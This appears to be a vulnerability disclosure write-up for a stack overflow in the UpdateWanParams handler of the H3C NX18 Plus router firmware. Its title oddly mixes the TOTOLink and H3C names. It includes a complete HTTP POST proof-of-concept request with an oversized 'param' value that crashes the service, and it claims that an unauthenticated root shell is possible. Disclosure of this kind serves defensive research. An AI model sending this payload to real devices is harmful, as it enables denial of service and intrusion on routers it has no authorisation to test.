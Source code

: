 # TOTOLink H3C Magic NX18 Plus NX18PV100R003 has a stack overflow vulnerability

## Overview

- Manufacturer's website information：https://www.h3c.com/
- Firmware download address ： https://www.h3c.com/cn/d_202103/1389284_30005_0.htm

### Product Information

H3C NX18 Plus NX18PV100R003  router, the latest version of simulation overview：

![image-20220720194826789](img/image-20220720194826789.png)

## Vulnerability details

The H3C NX18 Plus NX18PV100R003  router was found to have a stack overflow vulnerability in the UpdateWanParams function. An attacker can obtain a stable root shell through a carefully constructed payload.

![image-20220720211305469](img/image-20220720211305469.png)

In the `UpdateWanParams` function, the `param` we entered is formatted using the `sscanf` function and in the form of `%s`. This greedy matching mechanism is unsafe. As long as the size of the data we enter is greater than the size of `V47` and less than 0x200, it will lead to stack overflow.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /goform/aspForm HTTP/1.1
Host: 192.168.124.1:80
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://121.226.152.63:8443/router_password_mobile.asp
Content-Type: application/x-www-form-urlencoded
Content-Length: 536
Origin: https://192.168.124.1:80
DNT: 1
Connection: close
Cookie: LOGIN_PSD_REM_FLAG=0; PSWMOBILEFLAG=true
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

CMD=UpdateWanParams&param=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa;
```

![image-20220720210723701](img/image-20220720210723701.png)

The picture above shows the process information before we send poc.

![image-20220720210915164](img/image-20220720210915164.png)

In the picture above, we can see that the PID has changed since we sent the POC.

![image-20220720211131193](img/image-20220720211131193.png)

The picture above is the log information.

![image-20220624230619282](img/image-20220624230619282.png)

By calculating offsets, we can compile special data to refer to denial-of-service attacks(DOS).

![image-20220720065911385](img/image-20220723140942626.png)

Finally, you also can write exp to get a stable root shell without authorization.